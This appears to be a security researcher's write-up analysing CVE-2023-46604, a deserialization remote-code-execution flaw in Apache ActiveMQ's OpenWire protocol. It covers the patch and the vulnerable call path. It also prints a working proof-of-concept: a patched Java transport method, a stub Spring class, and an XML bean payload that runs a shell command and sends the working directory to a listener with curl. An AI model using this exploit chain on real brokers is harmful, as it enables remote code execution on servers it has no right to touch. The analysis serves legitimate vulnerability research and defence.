

# [CVE-2023-46604] ActiveMQ Deserilization RCE Analysis


<br/><br/>

## CVE-2023-46604
<br/>
The CVE-2023-46604 vulnerability is specifically related to the deserialization of untrusted data in the OpenWire protocol, which is used for communication between ActiveMQ brokers and clients. When a broker receives a serialized message, it deserializes the message into an object. However, the broker does not properly validate the serialized class type, which allows an attacker to send a specially crafted message that causes the broker to instantiate an arbitrary class. This allows the attacker to execute code of their choosing.


<br/><br/>


## Executive Summary
<br/>
The ActiveMQ client and broker employ distinct serialization/deserialization mechanisms corresponding to command types. However, the deserialization process designed for managing Exception messages was flawed, permitting the initiation of any class of Throwable type. This flaw facilitated the instantiation of arbitrary class objects within the classpath, ultimately resulting in a vulnerability leading to Remote Code Execution (RCE).


<br/><br/>


## Technical Jargons
<br/>

* **ActiveMQ Broker** is an open-source message broker that facilitates communication between applications through message exchange. It implements the Advanced Message Queuing Protocol (AMQP), a widely adopted messaging protocol.

<br/>

* **ActiveMQ Client** is a software program that enables an application to interact with an ActiveMQ message broker. It allows applications to send and receive messages, manage queues and topics, and subscribe to message notifications.

<br/>

* **ActiveMQ Commands** are simply different types of messages which are exchanged between ActiveMQ broker and clients. Different command/message types serve different purposes. For example, there is a command type for Acknowledgements, Exceptions, Connection requests etc. 

<br/>

* **OpenWire** is a binary protocol employed by ActiveMQ to marshal and unmarshal objects into byte streams. This enables the transmission of messages between ActiveMQ components, such as producers and consumers.

<br/>

* **Serialization/Marshaling** is a process in programming that enables the conversion of complex data structures into a transmittable and storable format. It is mostly used to store the state of an object.

<br/>

* **Deserialization/Unmarshaling** is the reverse of Serialization or Marshaling. It enabled the conversion of transmittable/stored form of data into a complex data structure, such as a class object. It is used to re-store/re-instantiate a class object through serialized data.


<br/><br/>


## Technical Details & Analysis
<br/>
To understand the vulnerability, we must first look at how ActiveMQ broker deserializes a received command (also called message).

<br/>

### <u>Deserialization in OpenWire protocol</u>
<br/>

When the broker receives any kind of command, It calls the higher level unmarshaling function `unmarshal()` of the OpenWire implementation.

<br/>

<i>`org.apache.activemq.openwire.OpenWireFormat.unmarshal()`</i>


After reading an integer byte from the received input frame, it passes the entire received input data to the lower level `doUnmarshal()` function.

<br/>

<i>`org.apache.activemq.openwire.OpenWireFormat.doUnmarshal()`</i>


The `doUnmarshal()` function reads the next byte from the input data which indicates the type of command/message it has received. Based on the type of command/message, respecitive deserialization/unmarshaling function is invoked to deserialize the input data.

There are 100+ different command/message types available in [OpenWire specification](https://activemq.apache.org/openwire-version-2-specification) with their respective byte values. Some of them can be seen below.

<br/>


<br/>

So to summarize this up, when the broker receives a command, it ultimately calls the deserialization function respective to the received command type.

<br/>

### <u>Patch Observation</u>
<br/>

To patch the security vulnerability, the following code was commited by ActiveMQ team.

Commit Link: [ActiveMQ - Pull/1098](https://github.com/apache/activemq/pull/1098/commits/3eaf3107f4fb9a3ce7ab45c175bfaeac7e866d5b)


As can be seen from the screenshot above, the change has been done on `activemq-client` as it houses the OpenWire protocol suite.

During communication between ActiveMQ clients, a version negotiation takes place, that is why the changes had to be done in every OpenWire version.

The screenshot only shows the changes made on `openwire/v10`, however same change was made on other versions like `v1`,`v2`...,`v12`.

The patch simply checks if name of class passed to `createThrowable()` is actually Throwable (derived from `Throwable` class).

Since `Throwable` is the parent class of all Java exception and error classes, It denotes that the vulnerability has something to do with **Exceptions**.

It becomes clear when we observe function call hierarchy to identify all functions which ultimately end up calling the `createThrowable` function. One of the classes this observation led to was `ExceptionResponseMarshaller` which indicates that the vulnerable function is called during the unmarshaling of Exception responses, which are of type `ExceptionResponse` in OpenWire specification.

<br/>

At this point, we know that:
* `createThrowable` is a function that will allow us to instantiate objects of arbitrary type as long as the type is in `classpath` and is derived from `Throwable`.
* The vulnerability exists in unmarshaling process of commands/messages of `ExceptionResponse` type.

Now lets dig into how `ExceptionResponse` commands are unmarshaled when received by the broker.

<br/>

### <u>Unmarshaling of `ExceptionResponse` commands</u>
<br/>

As we saw earlier, the `doUnmarshal()` function calls the unmarshaling function of the respective command type. In case of `ExceptionResponse` command type, It invokes the `tightUnmarshal()` in `ExceptionResponseMarshaller` class.

<br/>

<i>`org.apache.activemq.openwire.v12.ExceptionResponseMarshaller.tightUnmarshal()`</i>


The `tightUnmarshal()` function explicitely casts the passed command object to `ExceptionResponse` type and calls `tightUnmarsalThrowable()` passing it the wireinfo object (which contains the openwire parameters) along with the input data to be unmarshaled.

The `tightUnmarsalThrowable()` function then reads the exception type and exception message from the input data and stores them in `clazz` and `message` respectively.

<br/>

<i>`org.apache.activemq.openwire.v12.BaseDataStreamMarshaller.tightUnmarsalThrowable()`</i>


Once the class type and message are extracted from the input data, they are passed to `createThrowable()` which ends up creating the object of the passed type with the message as argument to its constructor.

<br/>

<i>`org.apache.activemq.openwire.v12.BaseDataStreamMarshaller.createThrowable()`</i>


<br/>

With all this control flow information, we now know that:
* The vulnerability exists in insecure deserialization of `ExceptionResponse` commands where the exception class type and message value are read from the command byte stream to construct an object of the passed class type.
* If we somehow manage to marshal an `ExceptionResponse` object with arbitrary class name and message value, we would be able to create arbitrary objects of any class available on the classpath.

Now lets see how can we do that.


<br/>

### <u>Exploitation</u>
<br/>

Lets write a basic program that connects to ActiveMQ broker and sends a message to a queue.


To exploit the insecure deserialization, we need to craft a malicious `ExceptionResponse` object, marshal it and send it to the broker.

Instead of going through the OpenWire specification and hard coding each required byte in the byte stream, we can do it smartly by patching the necessary functions. Since higher/lower level functions are already available in the library to assist with marshaling, we don't need to hardcode bytes ourselves.

The first step is to identify the minimalist function which invokes `marshal()` and initiates the marshaling process (as patching `marshal` would require us to patch other dependent functions). 

One such reference of `marshal()` was `oneway()` method of `TcpTransport` class.

<br/>

<i>`org.apache.activemq.transport.tcp.TcpTransport.oneway()`</i>


The `oneway()` call is the minimalist because it only requires the command object as argument and it invokes the `marshal()` function correctly.

<br/>

<i>`org.apache.activemq.transport.tcp.TcpTransport.oneway()`</i>


We can patch this function by writing our own implementation of it such that it creates the malicious `ExceptionResponse` object with necessary values for class name and message value.

As this part is sorted, how to create a malicious `ExceptionResponse` object and what class name and message value should we put in the payload in order to achieve code execution?

As we observed in the `createThrowable()`, the class name (lets say `className`) and exception message value (lets say `msg`) would be used for creation of object which would be equivalent to running:
```java
className obj = new className(msg)
```

One thing to note here is that we can only initialize an object and pass one constructor value, but we can't call any function on that object. So what type of class name and message value should we use?  
Since ActiveMQ depends on spring, we can utilize an intersting gadget function [ClassPathXmlApplicationContext()](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/context/support/ClassPathXmlApplicationContext.html) which allows to load the definitions of the beans from a local/remote XML file. In simple words, It helps you in initializing an object with its state loaded from a remote XML file. Some examples of this function can be found [here](https://www.baeldung.com/spring-classpathxmlapplicationcontext).

So this is how our final patched version of `oneway()` would look like:
```java
public void oneway(Object command) throws IOException {
    checkStarted();
    System.out.println("[+] Inside patched oneway()");
    String VPS_URL = "http://127.0.0.1:8000/poc.xml";
    Throwable maliciousThrowableObject = new ClassPathXmlApplicationContext(VPS_URL);
    ExceptionResponse er = new ExceptionResponse(maliciousThrowableObject);
    wireFormat.marshal(er, dataOut);
    dataOut.flush();
}
```

Also, The `ClassPathXmlApplicationContext` needs to:
* be derived from `Throwable` as it is being assigned to an object of `Throwable` type.
* have a `getMessage()` function similar to `ExceptionResponse` class as it will be called during marshaling process.

To solve these problems, we patch the `ClassPathXmlApplicationContext()` by writing a custom implementation for it, fulfilling the needed conditions.

```java
package org.springframework.context.support;

public class ClassPathXmlApplicationContext extends Throwable {
	
	private String message;
	
	public ClassPathXmlApplicationContext(String xmlUrl)	{
		System.out.println("[+] Inside patched ClassPathXmlApplicationContext()");
		this.message = xmlUrl;
	}	

	public String getMessage()	{
		return this.message;
	}	
}
```

On my local HTTP service running at port 8000, I hosted the following `poc.xml` file containing the application context:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <value>curl http://127.0.0.1:5555/ExploitSuccessful?pwd=$(pwd)</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

The above application context will assist in creating an object of `java.lang.ProcessBuilder` and run a command to hit my listener service hosted on port 5555. If hit, It would indicate the successful exploitation of the insecure deserialization vulnerability.

<br/>

Now we have everything in place to run the exploit, Its time to run the program.

Console:


HTTP Service hosting XML application context:


Listener Service:


<br/>

As can be seen in the above screenshots, The control flow successfully landed on the patched definition of `oneway()` and `ClassPathXmlApplicationContext()` ending up executing the system command to hit my listener service, indicating the successful exploitation.


<br/><br/>

## Credits

* Thanks to the work of [@X1r0z](https://twitter.com/X1r0z) who analyzed the patch and successfully created the PoC for it. I used his article as a reference to dig more. Pleae find his article here:    
[Apache ActiveMQ (version 5.18.3) RCE analysis](https://paper.seebug.org/3058/)

* Thanks to Google Bard for helping me write this article efficiently lol.